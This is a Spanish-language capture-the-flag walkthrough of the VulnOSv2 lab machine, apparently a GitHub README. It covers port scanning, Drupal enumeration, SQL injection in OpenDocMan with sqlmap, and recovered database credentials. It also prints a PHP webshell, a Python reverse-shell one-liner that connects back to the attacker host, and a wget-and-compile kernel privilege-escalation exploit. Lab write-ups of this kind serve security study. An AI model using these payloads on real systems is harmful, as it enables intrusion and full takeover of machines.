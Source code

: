 # VulnOSv2
Desarrollo del CTF VulnOSv2. Download: https://www.vulnhub.com/entry/vulnos-2,147/

## Configuración.
- La máquina virtual no funciona en VMWARE, está preparada para VIRTUALBOX. 
- Debemos convertir VDI to VMDK para poder ser utilizado con VMWARE.
```
C:\VirtualBox>VBoxManage.exe C:\Users\PALOMO\Downloads\VulnOSv2\VulnOSv2.vdi C:\Users\OM4R\Downloads\VulnOSv2\VulnOSv2.vmdk --format VMDK
```
- Finalmente, se crea una máquina virtual del tipo UBUNTU y seleccionar el disco duro VMDK.

## Escaneo de Puertos

### 1. Escaneamos todos los puertos TCP

```
nmap -n -P0 -p- -sC -sV -O -T5 -oA full 192.168.78.141
Nmap scan report for 192.168.78.141
Host is up (0.00082s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
MAC Address: 00:0C:29:F2:88:85 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## 2. Enumeración de servicios.

### 2.1. Servicio WEB.
- Identificamos que el portal es un CMS DRUPAL: http://192.168.78.141/jabc/

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS1.jpg" width="80%"></img>

- GoBuster no arroja resultados importantes.
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS2.jpg" width="80%"></img>

- Buscamos vulnerabilidades en DRUPAL

```
droopescan scan drupal -u http://192.168.78.141/jabc/
[+] Plugins found:                                                              
    ctools http://192.168.78.141/jabc/sites/all/modules/ctools/
        http://192.168.78.141/jabc/sites/all/modules/ctools/CHANGELOG.txt
        http://192.168.78.141/jabc/sites/all/modules/ctools/LICENSE.txt
        http://192.168.78.141/jabc/sites/all/modules/ctools/API.txt
    token http://192.168.78.141/jabc/sites/all/modules/token/
        http://192.168.78.141/jabc/sites/all/modules/token/README.txt
        http://192.168.78.141/jabc/sites/all/modules/token/LICENSE.txt
    views http://192.168.78.141/jabc/sites/all/modules/views/
        http://192.168.78.141/jabc/sites/all/modules/views/README.txt
        http://192.168.78.141/jabc/sites/all/modules/views/LICENSE.txt
    libraries http://192.168.78.141/jabc/sites/all/modules/libraries/
        http://192.168.78.141/jabc/sites/all/modules/libraries/CHANGELOG.txt
        http://192.168.78.141/jabc/sites/all/modules/libraries/README.txt
        http://192.168.78.141/jabc/sites/all/modules/libraries/LICENSE.txt
    entity http://192.168.78.141/jabc/sites/all/modules/entity/
        http://192.168.78.141/jabc/sites/all/modules/entity/README.txt
        http://192.168.78.141/jabc/sites/all/modules/entity/LICENSE.txt
    ckeditor http://192.168.78.141/jabc/sites/all/modules/ckeditor/
        http://192.168.78.141/jabc/sites/all/modules/ckeditor/CHANGELOG.txt
        http://192.168.78.141/jabc/sites/all/modules/ckeditor/README.txt
        http://192.168.78.141/jabc/sites/all/modules/ckeditor/LICENSE.txt
    rules http://192.168.78.141/jabc/sites/all/modules/rules/
        http://192.168.78.141/jabc/sites/all/modules/rules/README.txt
        http://192.168.78.141/jabc/sites/all/modules/rules/LICENSE.txt
    addressfield http://192.168.78.141/jabc/sites/all/modules/addressfield/
        http://192.168.78.141/jabc/sites/all/modules/addressfield/LICENSE.txt
    plupload http://192.168.78.141/jabc/sites/all/modules/plupload/
        http://192.168.78.141/jabc/sites/all/modules/plupload/CHANGELOG.txt
        http://192.168.78.141/jabc/sites/all/modules/plupload/README.txt
        http://192.168.78.141/jabc/sites/all/modules/plupload/LICENSE.txt
    commerce http://192.168.78.141/jabc/sites/all/modules/commerce/
        http://192.168.78.141/jabc/sites/all/modules/commerce/README.txt
        http://192.168.78.141/jabc/sites/all/modules/commerce/LICENSE.txt
    profile http://192.168.78.141/jabc/modules/profile/
    php http://192.168.78.141/jabc/modules/php/
    image http://192.168.78.141/jabc/modules/image/

[+] Themes found:
    seven http://192.168.78.141/jabc/themes/seven/
    garland http://192.168.78.141/jabc/themes/garland/

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26
```
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS3.jpg" width="80%"></img>

- Busqué vulnerabilidades de manera manual en los plugins y no encontré nada.
- Busqué vulnerabilidades en EXPLOIT-DB y todas las que probé no funcionaron. Frustrante, invertí mucho tiempo en la vuln. DRUPALGDEDDON.

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS4.jpg" width="80%"></img>

- Última opción, buscar MENSAJES en el código HTML. En la página http://192.168.78.141/jabc/?q=node/7 hay un mensaje exclusivamente para el CTF.
- Moraleja: Buscar siempre en el código HTML.

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS5.jpg" width="80%"></img>
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS6.jpg" width="80%"></img>


## 3. Explotando Vulnerabilidades

- El portal es un sistema que se llama OPENDOCMAN v1.2.7 (parece un sistema de versionamiento de documentos). 
- Buscamos en Google y de inmediato aparecen vulnerabilidades en EXPLOIT-DB.
- 02 vulnerabilidades: SQLi y elevar privilegios. SQLi parece super facil.
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS7.jpg" width="80%"></img>

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS8.jpg" width="80%"></img>


### Explotando SQLi

- La inyección esta sencilla.
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS9.jpg" width="80%"></img>

- El usuario configurado de acceso a la BASE DE DATOS es ROOT. De inmediato pienso que puedo enumerar información de la BD y cargar archivos al servidor.

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS10.jpg" width="80%"></img>

- Debido a que esta super facil utilizamos SQLMAP y eumeramos todo lo posible:

#### Enumeración de información en BASE DE DATOS:

> La contraseña del usuario root de la BD es: toor

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS11.jpg" width="80%"></img>
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS12.jpg" width="80%"></img>

> En la tabla ODM_USER de la base de datos "jabcd0cs" encontramos dos (02) HASH MD5. El hash corresponde al pass: webmin1980 y usuario: webadmin

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS13.jpg" width="80%"></img>
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS14.jpg" width="80%"></img>

> En la base de datos DRUPAL7 encontré información del usuario webmin, este usuario ya lo había encontrado en el la aplicación OPENDOCMAN. 
> Con el usuario webmin puede entrar al DRUPAL. Bingo!

<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS15.jpg" width="80%"></img>
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS16.jpg" width="80%"></img>

### Cargando una WEBSHELL

- Cuando se logra acceso a un CMS una manera rápida y fácil de lograr shell es cargar una WEBSHELL a través de un THEME. Vamos a hacerlo rápido.
1. Descargo cualquiere THEME, solo hay que tener en consideración que sea para la versiónj 7 de DRUPAL. https://www.drupal.org/project/zen 
2. Lo descomprimo y añado un script en PHP. El más básico posible, que contenga la función SYSTEM.
3. Lo vuelvo a comprimir y cargo el nuevo THEME.

```
<?php
system($_GET['cmd']);
?>
```
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS17.jpg" width="80%"></img>

### Ejecutamos la WEBSHELL y obtener consola

```
http://192.168.78.141/jabc/sites/all/themes/zen-7.x-6.4/zen/cmd.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.78.131",666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

/* En la consola de KALI */
root@kali:/home/kali/Downloads/zen# netcat -lvp 666
Connection from 192.168.78.141:43517
/bin/sh: 0: can't access tty; job control turned off
$ 
```
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS18.jpg" width="80%"></img>


## 4. Elevar privilegios

> Ahora que ya tenemos una webshell para elevar privilegios busqué a través de los siguientes vectores:
1. SUDO
2. LLAVES SSH
3. SUID
4. Archivos de configuración

> Ninguno me brindó información relevante. Sólo me quedaba buscar en la versión de KERNEL y asi eleve privilegios.

### 4.1. Identificar la versión exacta del sistema operativo.

```
webmin@VulnOSv2:/tmp$ cat /etc/lsb-release
cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.4 LTS"
webmin@VulnOSv2:/tmp$ uname -a
uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
```
Nota: Ingrese con el usuario webmin con las mismas contraseñas encontradas antes.


### 4.2. Buscamos algun exploit para la versión del KERNEL
```
root@kali:~# searchsploit 3.13.0
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Esca | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Esca | linux/local/37293.txt
----------------------------------------------------------------------------------------------- ---------------------------------
```
> Ambos parecen candidatos fuertes asi que probaré en orden. El primero funcionó super bien.
> 

```
/* En KALI */
root@kali:~# cp /usr/share/exploitdb/exploits/linux/local/37292.c /var/www/html/
root@kali:~# cp /usr/share/exploitdb/exploits/linux/local/37293.txt /var/www//html/
root@kali:~# /etc/init.d/apache2 start
Starting apache2 (via systemctl): apache2.service.


/* En VULNOS */

webmin@VulnOSv2:/tmp$ wget http://192.168.78.131/37292.c 
wget http://192.168.78.131/37292.c 
--2021-02-27 04:52:33--  http://192.168.78.131/37292.c
Connecting to 192.168.78.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/x-csrc]
Saving to: ‘37292.c’

100%[======================================>] 5,119       --.-K/s   in 0s      

webmin@VulnOSv2:/tmp$ gcc -o r00t 37292.c
webmin@VulnOSv2:/tmp$ chmod +x r00t
chmod +x r00t
webmin@VulnOSv2:/tmp$ ./r00t
./r00t
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)

```
<img src="https://github.com/El-Palomo/VulnOSv2/blob/main/VulnOS19.jpg" width="80%"></img>



